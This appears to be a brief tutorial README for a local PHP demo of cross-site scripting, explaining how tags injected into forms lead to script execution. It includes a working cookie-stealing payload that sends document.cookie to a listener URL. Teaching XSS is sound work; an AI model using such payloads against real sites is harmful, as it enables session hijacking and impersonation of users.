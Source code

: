 # Quick demo
- Just an example of XSS with php

## Run
- Run with `php -S localhost:8000`
- `tail -f /var/log/httpd/access_log`

## PHP
- PHP is a server side scripting language.
- That means that it runs code you can't see before sending you back a response
- This is called a backend or server and this is how *modern* websites work.

## Exploit
- Tags into forms for forums, email signature, etc...
```html
I'm <strong>STRONG</strong>!
```
- If you can put in tags, that means you can put in `<script>` tags...

- What can we do with XSS?
- We can get user cookies, redirect them to a site we can control, or even impersonate the user and execute actions as them.
- Since this is local we can use python's built in http server to get a callback.

- **TODO** look up free http log service
- If you have your own server, you can easily send the data to that as well.
- To get our callback we can enter into either of the forms with:
```html
<script>document.write('<img src="http://localhost:8080/?cookie=' + document.cookie + '" />')</script>
```

- In this case we're 'hacking' ourself, but if this was posted to a vulnerable form page, a malicious user could make everyone who visited the page like their profile or post.
